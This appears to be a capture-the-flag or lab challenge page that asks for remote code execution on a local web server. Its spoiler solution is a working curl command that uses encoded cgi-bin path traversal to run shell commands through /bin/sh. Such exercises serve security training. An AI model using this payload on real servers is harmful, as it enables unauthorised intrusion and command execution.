 <h2>Description</h2>
<p>Find an RCE on this web server running on port 80.</p>

<h2>Goal</h2>
<p>RCE</p>

<h2>Solution</h2>
<details>
    <summary>Spoilers! (click to expand)</summary>
    <p>curl -s --path-as-is -d "echo Content-Type: text/plain; echo; whoami" "http://"localhost"/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh"</p>
</details>
